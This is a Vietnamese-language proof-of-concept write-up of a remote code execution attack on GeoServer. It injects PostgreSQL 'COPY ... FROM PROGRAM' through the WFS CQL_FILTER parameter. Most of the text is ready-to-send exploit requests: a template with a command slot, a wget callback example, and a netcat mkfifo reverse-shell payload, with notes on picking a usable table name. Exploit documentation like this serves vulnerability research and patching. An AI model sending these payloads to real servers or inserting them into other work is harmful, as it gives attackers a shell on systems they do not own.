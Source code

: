 Request để RCE có dạng: 

```
GET /geoserver/ows?service=WFS&version=1.0.0&request=GetFeature&typeName=nyc:nyc_buildings&CQL_FILTER=strStartsWith(bin%2C%27x%27%27)+%3D+true;+COPY+<table_name>+FROM+PROGRAM+$$<cmd_here>$$;+--+%27)+%3D+true HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Connection: close
```

Câu query có dạng:

```
SELECT count(*) FROM "public"."nyc_buildings" WHERE ("bin"::text LIKE 'x') = true; COPY <table_name> FROM PROGRAM $$<cmd_here>$$; -- %') = true
```

Với trường hợp session_user không có quyền tạo table: Lấy list table name đã có, thử bằng cách thay lần lượt vào <table_name> trong payload.
Với trường hợp session_user có quyền tạo table: Lấy tên của table vừa tạo, thay vào <table_name> trong payload.

Dưới đây là 2 ví dụ để chứng minh RCE:

1. Mở HTTP server ở local bằng python, port 80, thay `wget+http://localhost` vào <cmd_here> trong payload. Payload có dạng:
	```
	/geoserver/ows?service=WFS&version=1.0.0&request=GetFeature&typeName=nyc:nyc_buildings&CQL_FILTER=strStartsWith(bin%2C%27x%27%27)+%3D+true;+COPY+shell1+FROM+PROGRAM+$$wget+http://localhost$$;+--+%27)+%3D+true
	```
	Gửi request và thấy ở localhost nhận được request -> chứng tỏ RCE thành công.
	
	![enter image description here](https://imgur.com/p3lU2p9.png)

	![enter image description here](https://imgur.com/OK6mjro.png)

2. Lấy quyền truy cập vào server bằng reverse shell.  

	Mở listener ở loca bằng netcat, port 4444. Thay `rm+-f+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+127.0.0.1+4444+>/tmp/f` vào <cmd_here> trong payload. Payload có dạng:
	```
	/geoserver/ows?service=WFS&version=1.0.0&request=GetFeature&typeName=nyc:nyc_buildings&CQL_FILTER=strStartsWith(bin%2C%27x%27%27)+%3D+true;+COPY+shell1+FROM+PROGRAM+$$rm+-f+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+127.0.0.1+4444+>/tmp/f$$;+--+%27)+%3D+true
	```
	Gửi request và thấy ở local bắt được reverse shell session.

	![enter image description here](https://imgur.com/seEpmgE.png)
	![enter image description here](https://imgur.com/cBvyp7B.png)

	Lưu ý: Dù session_user của PostgreSQL là gì thì lệnh `id` cũng sẽ trả về là user postgres. Vì postgres là user của system, phụ trách kết nối từ PostgreSQL xuống system, còn session_user là user của riêng PostgreSQL, phụ trách thực thi query trong PostgreSQL, không liên quan đến system. 
